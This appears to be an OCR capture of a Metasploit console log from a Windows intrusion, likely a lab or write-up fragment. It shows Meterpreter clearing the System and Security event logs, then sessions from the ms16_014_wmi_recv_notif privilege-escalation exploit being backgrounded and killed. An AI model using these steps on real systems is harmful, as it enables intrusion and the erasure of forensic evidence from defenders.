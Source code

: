 ```
[*] Wiping 15 records from System...
[*] Wiping 22 records from Security...
meterpreter > bg
[*] Backgrounding session 4...
msf6 exploit(windows/local/ms16_014_wmi_recv_notif) > sessions -k 3
[*] Killing the following session(s): 3
[*] Killing session 3
[*] 10.10.22.1 - Meterpreter session 3 closed.
```